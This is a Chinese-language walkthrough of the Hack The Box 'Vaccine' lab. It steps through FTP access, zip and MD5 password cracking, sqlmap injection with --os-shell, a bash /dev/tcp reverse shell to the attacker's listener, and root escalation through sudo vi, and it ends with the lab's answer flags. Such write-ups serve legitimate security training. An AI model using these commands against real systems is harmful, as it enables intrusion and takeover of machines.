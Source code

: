 ```yaml
---
title: Hack the box Vaccine题解
---
```

# Hack the box Vaccine题解

> 在打靶机的时候网络有点问题，所以这份WP里的目标机器的IP前后是不一样的，但总的来说，方法大同小异

# 扫端口

```shell
nmap -sC -sV 10.129.252.99
```

![image-20230402121345323](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20230402121345323.png)

开启了21、22和80端口，访问80端口，什么都没有，结合任务1和任务2，就直接练上去看有没有东西

![image-20230402131255007](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20230402131255007.png)

# ftp

连上以后把文件复制出来

![image-20230402131346467](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20230402131346467.png)

# 破解zip密码

解压的时候发现是有密码的

![image-20230402131602635](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20230402131602635.png)

看到任务4，和经过百度知道利用 `zip2john`去获取压缩包的 `hash`值，然后使用 `john`去破解 `hash`值

![image-20230402131644512](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20230402131644512.png)

破解成功

![image-20230402132032683](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20230402132032683.png)

# backup的内容

得到了两个文件

![image-20230402132448632](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20230402132448632.png)

其中 `index.php`里面有网站的管理员账号和密码，密码经过了md5加密，经过破解得到：`qwerty789`，这也是任务5的答案

![image-20230402132520686](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20230402132520686.png)

![image-20230402132605551](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20230402132605551.png)

# sql注入

登录到后台后有个搜索框尝试有无sql注入，发现可注入，加上任务6的提示，那就直接 `sqlmap`一把梭

![image-20230402204507038](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20230402204507038.png)

用 `burpsuite`抓包保存到1.txt后，利用sqlmap进行注入，并利用 `--os-shell`进行执行 `shell`的命令

![image-20230402223030330](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20230402223030330.png)

- 注入命令：

```shell
sqlmap -r 1.txt --os-shell 
```

# 反弹shell

- 攻击机监听

```shell
nc -lvvp 1234
```

- 在 `--os-shell`里执行

```shell
bash -c "bash -i >& /dev/tcp/10.10.14.13/1234 0>&1"
```

在网站的根目录下的 `dashboard.php`里发现了数据库的一个账号的密码

![image-20230402223929668](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20230402223929668.png)

```
账号：postgres
密码：P@s5w0rd!
```

# 提权

在前面的端口扫描里看到这台机器是开启了22端口的，尝试使用上面得到的账号密码去登陆（想要用这个是因为为反弹shell后并不稳定，老是掉线，所以就换另一个方法），可以成功登录![image-20230402224519697](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20230402224519697.png)

使用命令 `suo -l`查看 `postgres`能执行的高级权限的命令

![image-20230402224934023](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20230402224934023.png)

发现有一个命令是：

```shell
(ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

然后看官方的wp得知，可以利用vi进行提权

> 首先运行命令：sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
> 输入 `:`切换命令模式输入：set shell=/bin/sh
>
> 在按一次 `:`切换到命令模式输入：shell

然后就切换到了 `root`用户

![image-20230402230044265](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20230402230044265.png)

# 答案

> 1. FTP
> 2. anonymous
> 3. backup.zip
> 4. zip2john
> 5. qwerty789
> 6. --os-shell
> 7. vi
> 8. ec9b13ca4d6229cd5cc1e09980965bf7
> 9. dd6e058e814260bc70e9bbdef2715849

# 参考博客

[hack the box靶场Vaccine靶机](https://blog.csdn.net/zr1213159840/article/details/123693695)

[渗透测试练习靶场hackthebox——Starting Point Vaccine攻略（内附各种bug解决方案）](https://blog.csdn.net/m0_48066270/article/details/108696605)
